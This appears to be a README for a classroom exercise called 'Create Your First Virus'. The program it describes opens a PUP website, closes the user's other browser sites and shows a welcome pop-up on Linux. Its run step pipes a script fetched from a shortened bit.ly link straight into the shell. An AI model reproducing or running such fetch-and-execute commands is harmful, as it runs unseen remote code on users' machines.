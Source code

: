 # Exercise 02 - Create Your First Virus
## Task
Create your first virus
- Executable file
- Will open browser and PUP website automatically
- Will close all other website
- Pop up message, "Welcome to PUP"
## Prerequisites
To be able to run the virus, the host machine should be:
- Running any Linux Operating System
- Has either `google-chrome` or `firefox` or `brave` browser
## Running the Virus
To execute the virus, copy and paste the command below:
```sh
curl -L https://bit.ly/4fJCXo0 | sh
```
## Demonstration
[demo_gif](/demonstration/demo.gif);
